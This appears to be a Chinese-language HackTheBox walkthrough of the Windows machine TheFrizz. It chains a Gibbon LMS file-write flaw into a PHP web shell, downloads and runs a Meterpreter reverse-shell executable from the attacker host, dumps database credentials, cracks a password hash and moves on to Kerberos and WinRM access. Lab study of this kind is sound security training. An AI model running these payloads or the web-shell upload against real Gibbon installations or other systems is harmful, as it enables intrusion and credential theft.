

# Season7-TheFrizz

> https://app.hackthebox.com/machines/652 | `medium` | `Windows`靶机
> 

## 前期踩点

进行`nmap`扫描

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  nmap -sT -min-rate 10000 -p- 10.10.11.60     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-16 10:52 EDT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 31.29% done; ETC: 10:54 (0:01:23 remaining)
Nmap scan report for 10.10.11.60
Host is up (0.21s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
49670/tcp open  unknown
57439/tcp open  unknown
57443/tcp open  unknown
57453/tcp open  unknown
```

发现域名`frizzdc.frizz.htb` 添加到`hosts` 文件

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  nmap -sT -A -T4 -O -p 22,53,80,88,135,139,389,445,593,636,3268,3269,9389 10.10.11.60
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-16 10:57 EDT
Nmap scan report for 10.10.11.60
Host is up (0.25s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Did not follow redirect to http://frizzdc.frizz.htb/home/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-16 21:39:50Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: frizz.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: localhost, FRIZZDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-16T21:40:19
|_  start_date: N/A
|_clock-skew: 6h41m46s

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   197.91 ms 10.10.16.1
2   271.29 ms 10.10.11.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.70 seconds
```

漏洞扫描

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  nmap -script=vuln -p 22,53,80,88,135,139,389,445,593,636,3268,3269,9389 10.10.11.60
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-16 11:01 EDT
Nmap scan report for frizz.htb (10.10.11.60)
Host is up (0.26s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|_  /home/: Potentially interesting folder
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
|_ssl-ccs-injection: No reply from server (TIMEOUT)
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
|_ssl-ccs-injection: No reply from server (TIMEOUT)
9389/tcp open  adws

Host script results:
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 324.48 seconds
```

先尝试`SMB`是否允许匿名用户

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  smbclient -L 10.10.11.60 -U anonymous
session setup failed: NT_STATUS_NOT_SUPPORTED
```

## WEB 渗透

访问HTTP服务，貌似是一个教育平台



在主页下面发现，一串`base64`编码的文字


对其进行解码


翻译下来就是：想学习黑客技术但又不想坐牢？您将在国际水域的安全环境中了解 Syscalls 和 XSS 的来龙去脉，并了解客户签订的铁定合同，这些内容均由 Walkerville 最优秀的律师审阅。

提到了`Syscalls` 和 `XSS` ，但不知道有什么用，后面可能会用到

头部上有 `Staff login` ，点击跳转


```bash

Welcome

*NOTICE** Due to unplanned Pentesting by students, WES is migrating applications and tools to stronger security protocols. During this transition, Ms. Fiona Frizzle will be migrating Gibbon to utilize our Azure Active Directory SSO. Please note this might take 48 hours where your accounts will not be available. Please bear with us, and thank you for your patience. Anything that can not utilize Azure AD will use the strongest available protocols such as Kerberos.
欢迎

*注意** 由于学生进行计划外的渗透测试，WES 正在将应用程序和工具迁移到更强大的安全协议。在此过渡期间，Fiona Frizzle 女士将迁移 Gibbon 以利用我们的 Azure Active Directory SSO。请注意，这可能需要 48 小时，在此期间您的帐户将不可用。请耐心等待，感谢您的耐心。任何无法使用 Azure AD 的东西都将使用最强大的可用协议，例如 Kerberos。
```

左边选项是学生申请，右边是员工申请

我们可以知道这里是使用`Gibbon v25`搭建的，通过网上搜寻是否存在漏洞

经搜索存在本地文件包含漏洞 **CVE-2023-34598**：https://github.com/maddsec/CVE-2023-34598

> 但是，需要注意的是，此漏洞仅对位于安装文件夹中的文件和特定条件有效，例如，不包括 PHP 文件
> 

我们参照`POC`进行本地文件包含`gibbon.sql` ，成功复现


对当前安装目录进行扫描，寻找是否存在能进行包含的敏感文件

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  gobuster dir -u http://frizzdc.frizz.htb/Gibbon-LMS/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -b 404,403,502,429 --no-error -x php,asp,zip,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://frizzdc.frizz.htb/Gibbon-LMS/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,403,502,429
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,asp,zip,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 22064]
/login.php            (Status: 302) [Size: 0] [--> /Gibbon-LMS/index.php?loginReturn=fail0]
/resources            (Status: 301) [Size: 361] [--> http://frizzdc.frizz.htb/Gibbon-LMS/resources/]
/themes               (Status: 301) [Size: 358] [--> http://frizzdc.frizz.htb/Gibbon-LMS/themes/]
/modules              (Status: 301) [Size: 359] [--> http://frizzdc.frizz.htb/Gibbon-LMS/modules/]
/uploads              (Status: 301) [Size: 359] [--> http://frizzdc.frizz.htb/Gibbon-LMS/uploads/]
/version.php          (Status: 200) [Size: 0]
/privacypolicy.php    (Status: 200) [Size: 524]
/report.php           (Status: 200) [Size: 2617]
/Index.php            (Status: 200) [Size: 22064]
/license              (Status: 200) [Size: 35113]
/lib                  (Status: 301) [Size: 355] [--> http://frizzdc.frizz.htb/Gibbon-LMS/lib/]
/src                  (Status: 301) [Size: 355] [--> http://frizzdc.frizz.htb/Gibbon-LMS/src/]
/update.php           (Status: 200) [Size: 660]
/Login.php            (Status: 302) [Size: 0] [--> /Gibbon-LMS/index.php?loginReturn=fail0]
/Resources            (Status: 301) [Size: 361] [--> http://frizzdc.frizz.htb/Gibbon-LMS/Resources/]
/PrivacyPolicy.php    (Status: 200) [Size: 524]
/logout.php           (Status: 302) [Size: 0] [--> /Gibbon-LMS/index.php]
/preferences.php      (Status: 200) [Size: 374]
/changelog.txt        (Status: 200) [Size: 103023]
/ChangeLog.txt        (Status: 200) [Size: 103023]
/Themes               (Status: 301) [Size: 358] [--> http://frizzdc.frizz.htb/Gibbon-LMS/Themes/]
/vendor               (Status: 301) [Size: 358] [--> http://frizzdc.frizz.htb/Gibbon-LMS/vendor/]
/config.php           (Status: 200) [Size: 0]
/error.php            (Status: 200) [Size: 2845]
/LICENSE              (Status: 200) [Size: 35113]
/privacyPolicy.php    (Status: 200) [Size: 524]
/functions.php        (Status: 200) [Size: 0]
/INDEX.php            (Status: 200) [Size: 22064]
/License              (Status: 200) [Size: 35113]
/Modules              (Status: 301) [Size: 359] [--> http://frizzdc.frizz.htb/Gibbon-LMS/Modules/]
/CHANGELOG.txt        (Status: 200) [Size: 103023]
```

扫描过于慢，可能是不需要进行爆破，暂时没有读到任何有效的文件

然后在网上可以找到（`intext:Arbitrary File Write gibbon`）：https://herolab.usd.de/security-advisories/usd-2023-0025/ 另外一个任意文件写入的漏洞

验证POC：

> The following request will write the payload **<?php echo system($_GET['cmd'])?>** to the file **asdf.php**.
> 

```bash
POST /modules/Rubrics/rubrics_visualise_saveAjax.php HTTP/1.1
Host: localhost:8080
[...]

img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001
```

构造Payload：

```bash
curl -X POST -d "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKT8%2b&path=asdf.php&gibbonPersonID=0000000001" http://frizzdc.frizz.htb/Gibbon-LMS//modules/Rubrics/rubrics_visualise_saveAjax.php
```

访问`asdf.php` 并添加`cmd`参数，成功回显！


将`shell`弹到`MSF`上

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.16.54 lport=1234 -f exe -o getshell.exe
```

开启监听

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set lhost 10.10.16.54
lhost => 10.10.16.54
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.54:1234 

```

下载`payload`

```bash
http://frizzdc.frizz.htb/Gibbon-LMS/asdf.php?cmd=curl 10.10.16.54:8081/getshell.exe -o ./getshell.exe
```

执行恶意`exe`

```bash
http://frizzdc.frizz.htb/Gibbon-LMS/asdf.php?cmd=getshell.exe
```

成功上线

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.54:1234 
[*] Meterpreter session 1 opened (10.10.16.54:1234 -> 10.10.11.60:55047) at 2025-03-17 00:55:40 -0400

meterpreter >
```

## 靶机信息搜集

```bash
meterpreter > pwd
C:\xampp\htdocs\Gibbon-LMS
```

```bash
meterpreter > sysinfo
Computer        : FRIZZDC
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : frizz
Logged On Users : 8
Meterpreter     : x64/windows
```

```bash
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

Interface  5
============
Name         : vmxnet3 Ethernet Adapter
Hardware MAC : 00:50:56:b9:e0:3d
MTU          : 1500
IPv4 Address : 10.10.11.60
IPv4 Netmask : 255.255.254.0
IPv6 Address : dead:beef::74cf:55b5:140b:9cb9
IPv6 Netmask : ffff:ffff:ffff:ffff::
IPv6 Address : fe80::4fb:be40:ce61:9c2a
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

```bash
meterpreter > getuid
Server username: frizz\w.Webservice
```

```bash
C:\xampp\htdocs\Gibbon-LMS>net user
net user

User accounts for \\FRIZZDC

-------------------------------------------------------------------------------
a.perlstein              Administrator            c.ramon                  
c.sandiego               d.hudson                 f.frizzle                
g.frizzle                Guest                    h.arm                    
J.perlstein              k.franklin               krbtgt                   
l.awesome                m.ramon                  M.SchoolBus              
p.terese                 r.tennelli               t.wright                 
v.frizzle                w.li                     w.Webservice             
The command completed successfully.
```

```bash
C:\xampp\htdocs\Gibbon-LMS>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

```bash
C:\xampp\htdocs\Gibbon-LMS>wmic useraccount get /all
wmic useraccount get /all
AccountType  Caption              Description                                               Disabled  Domain  FullName               InstallDate  LocalAccount  Lockout  Name           PasswordChangeable  PasswordExpires  PasswordRequired  SID                                             SIDType  Status    
512          frizz\Administrator  Built-in account for administering the computer/domain    FALSE     frizz                                       FALSE         FALSE    Administrator  TRUE                TRUE             TRUE              S-1-5-21-2386970044-1145388522-2932701813-500   1        OK        
512          frizz\Guest          Built-in account for guest access to the computer/domain  TRUE      frizz                                       FALSE         FALSE    Guest          TRUE                FALSE            FALSE             S-1-5-21-2386970044-1145388522-2932701813-501   1        Degraded  
512          frizz\krbtgt         Key Distribution Center Service Account                   TRUE      frizz                                       FALSE         FALSE    krbtgt         TRUE                TRUE             TRUE              S-1-5-21-2386970044-1145388522-2932701813-502   1        Degraded  
512          frizz\f.frizzle      Wizard in Training                                        FALSE     frizz   fiona frizzle                       FALSE         FALSE    f.frizzle      TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1103  1        OK        
512          frizz\w.li           Student                                                   FALSE     frizz   wanda li                            FALSE         FALSE    w.li           TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1104  1        OK        
512          frizz\h.arm          Student                                                   FALSE     frizz   harry arm                           FALSE         FALSE    h.arm          TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1105  1        OK        
512          frizz\M.SchoolBus    Desktop Administrator                                     FALSE     frizz   Marvin SchoolBus                    FALSE         FALSE    M.SchoolBus    TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1106  1        OK        
512          frizz\d.hudson       Student                                                   FALSE     frizz   dorothy hudson                      FALSE         FALSE    d.hudson       TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1107  1        OK        
512          frizz\k.franklin     Student                                                   FALSE     frizz   keesha franklin                     FALSE         FALSE    k.franklin     TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1108  1        OK        
512          frizz\l.awesome      Student                                                   FALSE     frizz   liz awesome                         FALSE         FALSE    l.awesome      TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1109  1        OK        
512          frizz\t.wright       Student                                                   FALSE     frizz   tim wright                          FALSE         FALSE    t.wright       TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1110  1        OK        
512          frizz\r.tennelli     Student                                                   FALSE     frizz   ralphie tennelli                    FALSE         FALSE    r.tennelli     TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1111  1        OK        
512          frizz\J.perlstein    Student                                                   FALSE     frizz   Janet perlstein                     FALSE         FALSE    J.perlstein    TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1112  1        OK        
512          frizz\a.perlstein    Student                                                   FALSE     frizz   arnold perlstein                    FALSE         FALSE    a.perlstein    TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1113  1        OK        
512          frizz\p.terese       Student                                                   FALSE     frizz   phoebe terese                       FALSE         FALSE    p.terese       TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1114  1        OK        
512          frizz\v.frizzle      The Wizard                                                FALSE     frizz   valerie frizzle                     FALSE         FALSE    v.frizzle      TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1115  1        OK        
512          frizz\g.frizzle      Student                                                   FALSE     frizz   goldie frizzle                      FALSE         FALSE    g.frizzle      TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1116  1        OK        
512          frizz\c.sandiego     Student                                                   FALSE     frizz   carmen sandiego                     FALSE         FALSE    c.sandiego     TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1117  1        OK        
512          frizz\c.ramon        Student                                                   FALSE     frizz   carlos ramon                        FALSE         FALSE    c.ramon        TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1118  1        OK        
512          frizz\m.ramon        Student                                                   FALSE     frizz   mikey ramon                         FALSE         FALSE    m.ramon        TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1119  1        OK        
512          frizz\w.Webservice   Service for the website                                   FALSE     frizz   webservice Webservice               FALSE         FALSE    w.Webservice   TRUE                FALSE            TRUE              S-1-5-21-2386970044-1145388522-2932701813-1120  1        OK        
```

上传`Winpeas`进行信息收集，方便后面使用

```bash
meterpreter > upload winPEASx64.exe
[*] Uploading  : /root/Desktop/test/TheFrizz/winPEASx64.exe -> winPEASx64.exe
```

```bash
C:\xampp\htdocs\Gibbon-LMS>winPEASx64.exe > info.txt
```

```bash
meterpreter > download info.txt
[*] Downloading: info.txt -> /root/Desktop/test/TheFrizz/info.txt
[*] Downloaded 351.36 KiB of 351.36 KiB (100.0%): info.txt -> /root/Desktop/test/TheFrizz/info.txt
[*] Completed  : info.txt -> /root/Desktop/test/TheFrizz/info.txt
```

对敏感信息进行收集，找到数据库的账户和密码

```bash
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';
```

尝试Dump数据，但是当前`shell`没办法交互

```bash
 mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
```

进入`powershell`

```bash
C:\xampp\mysql\bin>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\xampp\mysql\bin> 
```

再次进行Dump数据

```bash
 ./mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "show databases;"
 atabase
gibbon
information_schema
test
```

```bash
 ./mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "use gibbon;show tables;"
 many data...but work...
```

```bash
./mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "use gibbon;select * from gibbonperson;"
gibbonPersonID  title   surname firstName       preferredName   officialName    nameInCharacters        gender  username        passwordStrong  passwordStrongSalt      passwordForceReset      status  canLogin  gibbonRoleIDPrimary      gibbonRoleIDAll dob     email   emailAlternate  image_240       lastIPAddress   lastTimestamp   lastFailIPAddress       lastFailTimestamp       failCount       address1        address1District   address1Country address2        address2District        address2Country phone1Type      phone1CountryCode       phone1  phone3Type      phone3CountryCode       phone3  phone2Type      phone2CountryCode phone2   phone4Type      phone4CountryCode       phone4  website languageFirst   languageSecond  languageThird   countryOfBirth  birthCertificateScan    ethnicity       religion        profession      employer  jobTitle emergency1Name  emergency1Number1       emergency1Number2       emergency1Relationship  emergency2Name  emergency2Number1       emergency2Number2       emergency2Relationship  gibbonHouseID   studentID dateStart        dateEnd gibbonSchoolYearIDClassOf       lastSchool      nextSchool      departureReason transport       transportNotes  calendarFeedPersonal    viewCalendarSchool      viewCalendarPersonal    viewCalendarSpaceBooking   gibbonApplicationFormID lockerNumber    vehicleRegistration     personalBackground      messengerLastRead       privacy dayType gibbonThemeIDPersonal   gibboni18nIDPersonal    studentAgreements  googleAPIRefreshToken   microsoftAPIRefreshToken        genericAPIRefreshToken  receiveNotificationEmails       mfaSecret       mfaToken        cookieConsent   fields
0000000001      Ms.     Frizzle Fiona   Fiona   Fiona Frizzle           Unspecified     f.frizzle       067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03        /aACFhikmNopqrRTVz2489  N       Full       Y       001     001     NULL    f.frizzle@frizz.htb     NULL    NULL    ::1     2024-10-29 09:28:59     10.10.16.70     2025-03-17 00:47:02     4                                                         NULL             NULL    NULL    NULL                                                    Y       Y       N       NULL                            NULL    NULL    NULL    NULL    NULL    NULL                      YNULL    NULL    NULL
```

拿到了`Frizzle Fiona`用户的密码`hash`和`salt` 

```bash
hash:067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03
salt:/aACFhikmNopqrRTVz2489
```

看着像是`sha-256` ，尝试使用`hashcat`破解


将得到密码格式改为

```bash
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
```

破解，得到密码 `Jenni_Luvs_Magic23` ，并且通过之前的信息可以知道是大概是域用户`f.frizzle`的凭据

```bash
hashcat -m 1420 "067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489" /usr/share/wordlists/rockyou.txt
```


## 枚举用户可用服务

> 在上面使用的是新加坡节点，到这里使用 `US` 的`Release Arena` 节点，IP地址改为了`10.129.224.51`
> 

我们再次扫描端口，可以发现使用了US节点后开启`5985`端口

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  nmap -sT -min-rate 10000 -p- 10.129.224.5
1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 03:49 EDT
Nmap scan report for frizz.htb (10.129.224.51)
Host is up (0.38s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
```

使用密码尝试`SMB`，`WinRM`等服务无果

想起来之前有个信息，在WEB渗透前期得到的

```bash

Welcome

*NOTICE** Due to unplanned Pentesting by students, WES is migrating applications and tools to stronger security protocols. During this transition, Ms. Fiona Frizzle will be migrating Gibbon to utilize our Azure Active Directory SSO. Please note this might take 48 hours where your accounts will not be available. Please bear with us, and thank you for your patience. Anything that can not utilize Azure AD will use the strongest available protocols such as Kerberos.
欢迎

*注意** 由于学生进行计划外的渗透测试，WES 正在将应用程序和工具迁移到更强大的安全协议。在此过渡期间，Fiona Frizzle 女士将迁移 Gibbon 以利用我们的 Azure Active Directory SSO。请注意，这可能需要 48 小时，在此期间您的帐户将不可用。请耐心等待，感谢您的耐心。任何无法使用 Azure AD 的东西都将使用最强大的可用协议，例如 Kerberos。
```

可能是需要使用`Kerberos`协议进行认证

申请TGT票据

```bash
ntpdate -n firzzdc.frizz.htb
sudo systemctl stop systemd-timesyncd
ntpdate -s 10.129.224.51
getTGT.py frizz.htb/f.frizzle:'Jenni_Luvs_Magic23' -dc-ip frizzdc.frizz.htb
```


导入票据

```bash
export KRB5CCNAME=f.frizzle.ccache
```

还需要设置`REALM` 

```bash
[domain_realm]
    .frizz.htb = FRIZZ.HTB
    frizz.htb = FRIZZ.HTB

[libdefaults]
    default_realm = FRIZZ.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = true
    ticket_lifetime = 24h
    forwardable = true

[realms]
    FRIZZ.HTB = {
        kdc = frizzdc.frizz.htb
        admin_server = frizzdc.frizz.htb
        default_domain = frizz.htb
    }
```

```bash

ntpdate -s 10.10.11.60
sudo evil-winrm -i frizzdc.frizz.htb -r frizz.htb -k f.frizzle.ccache
```

成功获得`shell`

```bash
⚡ root@kali  ~/Desktop/test/TheFrizz  ntpdate -s 10.129.224.51
sudo evil-winrm -i frizzdc.frizz.htb -r frizz.htb -k f.frizzle.ccache
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: Useless cert/s provided, SSL is not enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\f.frizzle\Documents> whoami
frizz\f.frizzle
```

在当前目录下可以拿到user标志

```bash
*Evil-WinRM* PS C:\Users\f.frizzle\Desktop> type user.txt
8fb10ca6761f988d8da6d5b41916ea65
```

## 提权 - M.SchoolBus

尝试使用BloodHound使用`f.frizzle`收集的凭据进行分析

```bash
*Evil-WinRM* PS C:\Users\f.frizzle\Desktop> upload SharpHound.exe                                                                                            
                                                                                                                                                             
Info: Uploading /root/Desktop/test/TheFrizz/SharpHound.exe to C:\Users\f.frizzle\Desktop\SharpHound.exe              
                                                                              
Data: 1395368 bytes of 1395368 bytes copied    

*Evil-WinRM* PS C:\Users\f.frizzle\Desktop> ./SharpHound.exe                                                                                                 
2025-03-18T01:32:03.3495607-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound                                  
2025-03-18T01:32:03.4746029-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTar
gets, PSRemote                                                                                                                                               
2025-03-18T01:32:03.5058237-07:00|INFORMATION|Initializing SharpHound at 1:32 AM on 3/18/2025                                                                
2025-03-18T01:32:03.6464352-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for frizz.htb : frizzdc.frizz.htb                          
2025-03-18T01:32:03.6777446-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote     
2025-03-18T01:32:03.8496941-07:00|INFORMATION|Beginning LDAP search for frizz.htb                                                                            
2025-03-18T01:32:03.9121449-07:00|INFORMATION|Producer has finished, closing LDAP channel                                                                    
2025-03-18T01:32:03.9121449-07:00|INFORMATION|LDAP channel closed, waiting for consumers                                                                     
2025-03-18T01:32:34.0527670-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM                                                         
2025-03-18T01:32:51.8339357-07:00|INFORMATION|Consumers finished, closing output channel                                                                     
2025-03-18T01:32:51.8651850-07:00|INFORMATION|Output channel closed, waiting for output task to complete             
Closing writers                                                               
2025-03-18T01:32:52.0839376-07:00|INFORMATION|Status: 110 objects finished (+110 2.291667)/s -- Using 44 MB RAM                                              
2025-03-18T01:32:52.0839376-07:00|INFORMATION|Enumeration finished in 00:00:48.2359394                                                                       
2025-03-18T01:32:52.1777023-07:00|INFORMATION|Saving cache with stats: 69 ID to type mappings.                                                               
 69 name to SID mappings.                                                                                                                                    
 0 machine sid mappings.                                                      
 2 sid to domain mappings.                                                                                                                                   
 0 global catalog mappings.                                                   
2025-03-18T01:32:52.1933287-07:00|INFORMATION|SharpHound Enumeration Completed at 1:32 AM on 3/18/2025! Happy Graphing! 

